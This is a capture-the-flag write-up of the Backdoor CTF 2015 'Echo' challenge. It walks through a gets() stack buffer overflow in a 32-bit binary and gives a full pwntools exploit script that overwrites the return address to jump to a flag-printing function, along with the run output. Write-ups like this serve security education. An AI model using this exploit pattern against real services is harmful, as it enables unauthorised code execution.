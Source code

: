 # Backdoor CTF 2015: Echo

**Category:** Pwnable
**Points:** 100
**Description:** 

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. 
> [Here](challenge/echo) is the binary file. 
> The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

## Write-up

Take a peek at the binary

>```bash
> file echo
> echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x465c87a1ebfcdf7b01bfa8daed8f376d2bae9dfe, not stripped
>```

What does checksec say?

>```bash
> gdb-peda$ checksec
> CANARY    : disabled
> FORTIFY   : disabled
> NX        : ENABLED
> PIE       : disabled
> RELRO     : Partial
>```

A straight-forward non-stripped 32-bit ELF with non-exec stack. Let's fire up our decompiler and get the interesting functions out of it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  test();
>  return 0;
>}
>
>int test()
>{
>  char s; // [sp+1Eh] [bp-3Ah]@1
>
>  gets(&s);
>  sleep(1u);
>  return fprintf(_bss_start, "ECHO: %s\n", &s);
>}
>
>signed int sample()
>{
>  signed int result; // eax@2
>  char s; // [sp+18h] [bp-70h]@4
>  FILE *stream; // [sp+7Ch] [bp-Ch]@1
>
>  stream = fopen("flag.txt", "r");
>  if ( stream )
>  {
>    while ( fgets(&s, 100, stream) )
>      fputs(&s, _bss_start);
>    fclose(stream);
>    result = 0;
>  }
>  else
>  {
>    result = 1;
>  }
>  return result;
>}
>```

Ok, that looks good. A simple gets() stack overflow (of a buffer of length 58 bytes) and a function to print our flag. [Simply](solution/echosploit.py) overflow our buffer s into the EIP to point it to sample() to get the flag:

>```python
>#!/usr/bin/python
>#
># Backdoor CTF 2015
># ECHO (PWN/100)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>
>host = 'hack.bckdr.in'
>h = remote(host, 8002, timeout = None)
>buf = "A" * 62 + pack('<I', 0x0804857D) # Address of sample()
>h.send(buf + "\n")
>print h.recvall()
>
>h.close()
>```

And we got the flag:

>```bash
>$ python echosploit.py 
> [+] Opening connection to hack.bckdr.in on port 8002: Done
> [+] Recieving all data: Done (138B)
> [*] Closed connection to hack.bckdr.in port 8002
> ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\x85\x0
> 96f674623c2c378f89700aa46f02cf3b311489f0facdfac6fd5885d4bc1a129a
>```
